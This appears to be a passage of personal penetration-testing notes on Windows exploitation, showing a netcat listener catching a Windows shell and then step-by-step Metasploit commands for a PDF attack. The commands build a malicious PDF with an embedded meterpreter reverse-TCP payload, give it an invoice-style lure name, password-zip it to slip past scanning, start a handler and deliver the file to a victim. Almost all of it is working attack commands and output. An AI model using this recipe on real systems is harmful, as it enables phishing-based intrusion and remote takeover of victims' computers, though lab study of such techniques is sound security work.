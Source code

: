 ```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lp 4444
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Users\IEUser\Desktop>
```

![[Pasted image 20250429101318.png]]

---

# PDF Injection

## Windows Exploitation: PDF Injection Attack

This section demonstrates a comprehensive Windows exploitation scenario using a PDF injection attack, followed by post-exploitation techniques.

### Initial Access: Malicious PDF Creation

```bash
# 1. Generate malicious PDF with embedded executable
msf6 > use exploit/windows/fileformat/adobe_pdf_embedded_exe
msf6 exploit(windows/fileformat/adobe_pdf_embedded_exe) > set FILENAME facture_finale2021.pdf
msf6 exploit(windows/fileformat/adobe_pdf_embedded_exe) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(windows/fileformat/adobe_pdf_embedded_exe) > set LHOST 192.168.74.171
msf6 exploit(windows/fileformat/adobe_pdf_embedded_exe) > set LPORT 4444
msf6 exploit(windows/fileformat/adobe_pdf_embedded_exe) > exploit

# 2. Zip the PDF with password protection
┌──(kali㉿kali)-[~/Desktop]
└─$ zip -e test.zip test.pdf
Enter password: test
Verify password: test

# 3. Set up handler to receive connection
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.74.171
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > exploit

# 4. Send ZIP file to victim
# When the victim extracts and opens the PDF, you'll receive a meterpreter session
```

![[Pasted image 20250429102221.png]]
![[Pasted image 20250429102905.png]]
![[Pasted image 20250429103324.png]]
